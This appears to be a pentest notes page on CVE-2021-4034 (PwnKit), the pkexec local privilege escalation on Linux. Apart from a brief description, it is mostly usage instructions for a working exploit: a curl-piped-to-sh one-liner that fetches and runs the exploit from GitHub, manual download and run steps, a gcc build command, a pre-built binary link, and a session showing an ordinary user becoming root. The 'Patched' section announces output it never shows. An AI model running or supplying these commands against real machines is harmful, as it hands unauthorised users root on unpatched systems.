

icon:fontawesome/solid/unlock-keyhole

# CVE-2021-4034

CVE-2021-4034 - Pkexec Local Privilege Escalation

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```



### Manually

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```


### Patched

Running the exploit against patched versions will yield the following output.


## Building Pwnkit

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

- [PwnKit](../assets/files/PwnKit)

## Examples

```bash
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## References

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
